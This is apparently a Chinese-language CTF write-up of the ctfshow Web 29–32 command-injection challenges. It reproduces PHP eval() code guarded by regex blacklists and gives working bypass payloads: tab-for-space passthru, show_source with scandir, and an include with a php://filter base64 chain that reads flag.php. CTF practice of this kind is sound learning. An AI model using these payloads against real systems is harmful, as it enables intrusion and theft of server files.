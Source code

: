 # Web 29
![[Pasted image 20240821155539.png]]
能执行`$_GET['c']`中的语句，但是这个语句中不能存在`flag`这个单词。
我们先看看有啥：
![[Pasted image 20240821155629.png]]
最终还是要让我们输出`flag.php`：
![[Pasted image 20240821160130.png]]
# Web 30
![[Pasted image 20240821161009.png]]
![[Pasted image 20240821161455.png]]
# Web 31
```PHP
<?php  
  
/*  
# -*- coding: utf-8 -*-  
# @Author: h1xa  
# @Date:   2020-09-04 00:12:34  
# @Last Modified by:   h1xa  
# @Last Modified time: 2020-09-04 00:49:10  
# @email: h1xa@ctfer.com  
# @link: https://ctfer.com  
  
*/  
  
error_reporting(0);  
if(isset($_GET['c'])){    $c = $_GET['c'];  
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'/i", $c)){  
        eval($c);  
    }  
      
}else{    highlight_file(__FILE__);  
}
```


用`/?c=passthru("tac%09fl*")`中的`%09`也就是`TAB`键代替空格`%20`
![[Pasted image 20240822091817.png]]
或者
`?c=show_source(scandir(getcwd())[2]);`
![[Pasted image 20240822092155.png]]
# Web 32
```PHP
<?php  
  
/*  
# -*- coding: utf-8 -*-  
# @Author: h1xa  
# @Date:   2020-09-04 00:12:34  
# @Last Modified by:   h1xa  
# @Last Modified time: 2020-09-04 00:56:31  
# @email: h1xa@ctfer.com  
# @link: https://ctfer.com  
  
*/  
  
error_reporting(0);  
if(isset($_GET['c'])){    $c = $_GET['c'];  
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(/i", $c)){  
        eval($c);  
    }  
      
}else{    highlight_file(__FILE__);  
}
```

访问网站的时候用这个payload.
```
c=$nice=include$_GET["url"]?>&url=php://filter/read=convert.base64-
encode/resource=flag.php
```
- `include` 是 PHP 的一个函数，它会将指定文件的内容嵌入到当前脚本中执行。
- #### **恶意 `url` 参数**
```php
url=php://filter/read=convert.base64-encode/resource=flag.php
```
这部分代码的含义如下：
- `php://filter/`：PHP 提供的一种特殊的流，可以在访问文件时应用各种过滤器（filters）。`php://filter` 允许你对文件的内容进行操作（如编码、解码等）。
- `read=convert.base64-encode/`: 这是一种过滤器链，它会读取文件内容，并在读取时将内容转换为 Base64 编码。
- `resource=flag.php`：这是被读取和编码的实际文件，表示目标是服务器上的 `flag.php` 文件。
